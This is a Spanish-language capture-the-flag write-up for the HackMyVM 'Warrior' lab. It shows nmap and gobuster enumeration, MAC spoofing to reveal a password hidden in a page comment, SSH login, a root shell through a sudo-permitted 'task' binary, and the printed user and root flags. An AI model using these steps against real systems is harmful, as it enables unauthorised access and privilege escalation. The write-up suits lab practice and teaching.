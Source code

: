```yaml
---
icon: flag
---
```


# Warrior HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-20 03:15 EDT
Nmap scan report for 192.168.5.43
Host is up (0.00062s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5 (protocol 2.0)
| ssh-hostkey: 
|   3072 25:16:8d:63:6b:75:f0:59:55:d4:b0:2d:75:8d:e0:e6 (RSA)
|   256 1e:29:d0:f4:c5:95:e7:40:30:2b:35:f7:a3:bc:36:75 (ECDSA)
|_  256 cc:b1:52:b3:d7:ef:cd:73:4c:fc:f6:b5:51:77:ea:f3 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 7 disallowed entries 
| /admin /secret.txt /uploads/id_rsa /internal.php 
|_/internal /cms /user.txt
|_http-server-header: nginx/1.18.0
MAC Address: 08:00:27:0A:1B:DE (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.52 seconds
```

Veremos que hay un puerto `80` en el que vamos a ver que contiene, si entramos veremos simplemente una palabra `WARRIOR` no nos dice nada, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 50 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.43/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 31]
/user.txt             (Status: 200) [Size: 5]
/admin                (Status: 403) [Size: 153]
/robots.txt           (Status: 200) [Size: 137]
/internal.php         (Status: 200) [Size: 82]
/secret.txt           (Status: 200) [Size: 17]
Progress: 234182 / 882244 (26.54%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 234500 / 882244 (26.58%)
===============================================================
Finished
===============================================================
```

De todo esto el que mas nos atrae es el llamado `internal.php` ya que los demas no encontramos nada interesante si entramos, por lo que vamos acceder a dicho archivo a ver que encontramos dentro.

```
URL = http://<IP>/internal.php
```

Info:

```
Hey bro, you need to have an internal MAC as 00:00:00:00:00:a? to read your pass..
```

Veremos que necesitamos tener la `MAC` que esta comentando intentando descubrir la ultima letra para poder acceder de nuevo al mismo archivo y ver que nos muestra, por lo que vamos a probar las letras `abcdef` que son las que pueden estar maximo la `f` en la ultima opcion.

Si probamos todas la unica en la que cambia el contenido por lo que seria correcta, es con la letra `f` por lo que para establecerlo tendremos que hacer lo siguiente:

Establcemos la `MAC` desde la propia configuracion de la maquina, ya que por terminal puede dar problemas.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-06-20 095729.png" alt=""><figcaption></figcaption></figure>

Una vez que la hayamos establecido la correcta, entramos y probamos a realizar un `curl` para ver si es la correcta a la pagina.

```shell
curl -s http://<IP>/internal.php 
```

Info:

```
<br>Good!!!!!<!-- Your password is: Zurviv0r1 -->
```

Vemos que efectivamente es la correcta, por lo que vamos a probar el nombre de usuario `bro` que vimos antes y como contraseña `Zurviv0r1` por `SSH` a ver si nos deja acceder.

### SSH

```shell
ssh bro@<IP>
```

Metemos como contraseña `Zurviv0r1` y veremos que estaremos dentro.

Info:

```
Linux warrior 5.10.0-11-amd64 #1 SMP Debian 5.10.92-1 (2022-01-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb  8 04:03:20 2022 from 192.168.1.51
bro@warrior:~$ whoami
bro
```

Por lo que leeremos la `flag` del usuario.

> user.txt

```
LcHHbXGHMVhCpQHvqDen
```

## Escalate Privileges

Si hacemos `/usr/sbin/sudo -l` veremos lo siguiente:

```
Matching Defaults entries for bro on warrior:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User bro may run the following commands on warrior:
    (root) NOPASSWD: /usr/bin/task
```

Vemos que podemos ejecutar el binario `task` como el usuario `root` por lo que podremos hacer lo siguiente:

```shell
/usr/sbin/sudo task execute /bin/bash
```

Info:

```
root@warrior:/home/bro# whoami
root
```

Con esto seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
HPiGHMVcDNLlXbHLydMv
```
